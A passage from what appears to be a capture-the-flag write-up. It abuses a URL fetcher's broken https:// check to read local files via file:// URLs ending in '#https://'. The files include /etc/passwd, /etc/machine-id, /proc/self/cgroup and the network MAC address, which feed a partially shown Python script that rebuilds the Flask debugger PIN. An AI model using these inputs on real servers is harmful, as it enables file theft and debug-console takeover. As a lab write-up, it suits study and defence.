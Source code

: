 However, to get the username, MAC address and the machine id, we need to gain some access to the server.
So let's go back to the application itself and see what else we can do.

We know that we can request URLs, and since the https:// checking is broken, we can request any URL as long as we include https:// in the URL. Does this mean that it would be possible to use other protocols than http? Like ftp? or maybe read files directly through the file:// protocol? Let's give it a try!  
![file_example](writeup-imgs/file-example.png)
'No such file or directory', so the file:// protocol is allowed! Let's confirm this and open `/etc/passwd`:
![read_etc_passwd](writeup-imgs/read-etc-passwd.png)
Bingo, we have arbitrary file reads on this system! Now we can start gathering the required information to generate our PIN!

- MAC address:
  1. get the name of the network device with `file:///proc/net/arp#https://`-- `eth0`
  2. get the MAC address with `file:///sys/class/net/eth0/address#https://` -- `02:42:ac:13:00:02`
  3. convert MAC address to decimal representation -- `2485378023426`
- machine id:
  1. check `/etc/machine-id` with `file:///etc/machine-id#https://` -- `96cec10d3d9307792745ec3b85c89620`
  2. get bits from cgroup with `file:///proc/self/cgroup#https://` -- `7c248d90037505adc07822804fc5b2289664e4be47666dfd829d8713da6ba1bf`
  3. append results -- `96cec10d3d9307792745ec3b85c896207c248d90037505adc07822804fc5b2289664e4be47666dfd829d8713da6ba1bf`

Now we put these results in our script to generate the PIN:
```python
probably_public_bits = [
    'htmlfetcher',  # username
    'flask.app',  # modname
    'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/home/htmlfetcher/.local/lib/python3.6/site-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
    '2485378023426',  # str(uuid.getnode()),  /sys/class/net/ens33/address
    '96cec10d3d9307792745ec3b85c896207c248d90037505adc07822804fc5b2289664e4be47666dfd829d8713da6ba1bf'  # get_machine_id(), /etc/machine-id
```